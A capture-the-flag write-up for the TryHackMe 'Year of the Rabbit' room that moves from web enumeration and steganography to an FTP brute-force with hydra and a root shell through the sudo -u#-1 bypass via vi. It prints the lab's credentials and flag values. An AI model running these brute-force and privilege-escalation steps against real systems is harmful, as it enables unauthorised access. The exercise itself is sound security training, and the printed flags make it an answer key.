 # YEAR OF THE RABBIT

## BASIC INFO
```
export IP=10.10.60.194

open port:
	21	ftp
	22	ssh
	80	http
```

Using gobuster to fuzz for subdirectory. Found /assets\
In /assets/style.css found /sup3r_s3cr3t_fl4g.php.\
Navigating there leads us to a youtube video... I don't wanna talk about it...
Suspect something is going on behind. Using brup suite to check. One of the redirects leads us to /WExYY2Cv-qU.

On that directory, download Hot_Babe.png. Use zsteg to extract. Got username for ftp and some [password](password.txt).
`hydra -l ftpuser -P password.txt ftp://$IP`
```
username:ftpuser
password:5iez1wGXKfPKQ
```

mget Eli's_Cred.txt.\
Looks familiar? It is brainfuck. Using tio.run to see what it contains.
```
User: eli
Password: DSpDiM1wAEwid
```

Upon ssh log in to the machine, saw this message:\
> Gwendoline, I am not happy with you. Check our leet s3cr3t hiding place. I've left you a hidden message there.

Seems strange, just note it down. Might be useful.\
Looking for user.txt... It's not in eli's home. Using locate found it at gwendoline's home. Let's try to find s3cr3t? `find / -name s3cr3t 2>/dev/null` and found it at /usr/games/s3cr3t.

```
gwendoline
MniVCQVhQHUNI
```
Log in as gwendoline and grab the user.txt. Now on to rooting the machine.

Running `sudo -l` gives us the following result.
> (NOPASSWD, !root) /usr/bin/vi /home/gwendoline/user.txt

NOPASSWD, !root eh, sound like some sudo vulnerability it is.`sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt` to open vi as sudo, then `:!sh`. Now we're root.

> - **User.txt**
>> THM{1107174691af9ff3681d2b5bdb5740b1589bae53}

> - **Root.txt**
>> THM{8d6f163a87a1c80de27a4fd61aef0f3a0ecf9161}